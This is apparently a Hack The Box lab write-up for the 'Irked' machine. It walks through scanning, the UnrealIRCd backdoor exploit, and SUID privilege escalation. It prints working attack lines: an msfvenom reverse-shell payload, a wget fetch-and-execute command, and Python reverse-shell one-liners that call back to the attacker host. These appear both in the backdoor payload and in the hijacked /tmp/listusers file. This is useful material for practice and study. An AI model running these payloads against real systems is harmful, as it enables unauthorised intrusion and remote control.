 # [Irked](https://app.hackthebox.eu/machines/163)

Start of with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.117 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.117
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.117
```

The TCP quick scan returns the following:

![nmap_tcp_quick](./irked/nmap_tcp_quick.png)

Start the following web scanners in the background:

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
# start scanners
nikto -h http://10.10.10.117/ --maxtime=30s
gobuster dir -t 100 -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\
  -u http://10.10.10.117/ &
```

Visit site manually at `http://10.10.10.117/`:

![website](./irked/website.png)

Nothing exciting here or in the HTML source. The note about IRC being almost up is insteresting though. The `nmap` scan also shows RPC open. Try to enumerate users:

```bash
rpcclient -N 10.10.10.117       # NULL session
rpcclient -U '' -N 10.10.10.117 # empty username and password
```

![rpcclient](./irked/rpcclient.png)

No luck here, moving on... Around now, the full `nmap` scan should be done and shows some more interesting ports:

![nmap_tcp_full](./irked/nmap_tcp_full.png)

There isn't any version information open here. A quick exploit search has some interesting results:

![searchsploit](./irked/searchsploit.png)

In order to continue, this exploit needs to be verified. Looking through `nmap` scripts shows one that can help:

- https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html

```bash
ls -la /usr/share/nmap/scripts/irc*
```

![scripts](./irked/scripts.png)

The script can detect a vulnerable version through a simple ping. Test it on the 3 ports running IRC:

```bash
nmap --script irc-unrealircd-backdoor -p 6697,8067,65534 -d1 10.10.10.117
```

By enabling `nmap` debug messages with `-d1`, the following script output is given:

![script_out](./irked/script_out.png)

So the UnrealIRCd running on port 8067 seems vulnerable! Looking at exploit 16922, it has the following Ruby:

```ruby
def exploit
        connect
        print_status("Connected to #{rhost}:#{rport}...")
        banner = sock.get_once(-1, 30)
        banner.to_s.split("\n").each do |line|
                print_line("    #{line}")
        end
        print_status("Sending backdoor command...")
        sock.put("AB;" + payload.encoded + "\n")
        handler
        disconnect
end
```

This simply sends the characters `AB;` followed by an encoded command. The commands do not return any output so a reverse shell command needs to be crafted:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# start listener
nc -nvlp 6969
# trigger exploit manually:
# 1) wait until after the following text:
# :irked.htb NOTICE AUTH :*** Looking up your hostname...
# :irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
# 2) then paste the following:
# AB;wget http://10.10.14.23:8080/bubba.elf -P /tmp;chmod +x /bubba.elf;/tmp/bubba.elf &
nc 10.10.10.117 8067
```

However, this does not work as planned... To better test the exploit, start a `tcpdump` listening for pings and try to get the target to ping Kali:

```bash
# start tcpdump
sudo tcpdump -i tun0 icmp
# use payload: AB;ping -c 1 10.10.14.23
```

![pings](./irked/pings.png)

![tcpdump](./irked/tcpdump.png)

Interestingly, all 3 ports returned the `ping` and validated the vulnerability :man_shrugging: ? It is likely that the target does not have `wget` installed... Getting around this possible knowing that the target is Linux and Linux comes with Python installed out-of-the-box. Now use the following payload with a Python reverse shell:

```bash
# note: the & at the end to background the shell
AB;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",6969));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'& 
```

This payload interestingly provides a shell on the target, but does not give access to `user.txt`. Now to enumerate the target...

![shell](./irked/shell.png)

When looking for SUID binaries, the following binary sticks out:

```bash
find / -perm -u=s -type f -exec ls -lad {} \; 2>/dev/null
```

![suid](./irked/suid.png)

Transfer the binary through base64 encoding:

```bash
# run on target and copy output
cat /usr/bin/viewuser | base64
# run on kali with target's output in rop.64 file
cat viewuser.b64 | base64 -d > viewuser
chmod +x viewuser
```

Setup [Ghidra](https://ghidra-sre.org/) to reverse engineer the binary:

```bash
wget https://ghidra-sre.org/ghidra_9.1.2_PUBLIC_20200212.zip
unzip ghidra_9.1.2_PUBLIC_20200212.zip
sudo apt install openjdk-11-jdk
cd ghidra_9.1.2_PUBLIC/
./ghidraRun
```

After creating a new non-shared project and importing the binary, the `main()` function looks like the following in the disassembly window:

![ghidra](./irked/ghidra.png)

It looks like the binary just executes whatever is placed inside `/tmp/listusers`. Testing that theory:

```bash
# run on target
echo "ping -c 1 10.10.14.23" > /tmp/listusers
chmod a+x /tmp/listusers
cat /tmp/listusers
/usr/bin/viewuser
# run on kali
sudo tcpdump -i tun0 icmp
```

![test](./irked/test.png)

And this does generate an ICMP echo & reply the the Kali machine! Now replace `/tmp/listusers` with a python reverse shell payload:

```bash
# run on target
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.23\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&" > /tmp/listusers
chmod a+x /tmp/listusers
/usr/bin/viewuser
# on kali, setup listener
nc -nvlp 7777
```

And that gives both `user.txt` & `root.txt`:

![root](./irked/root.png)

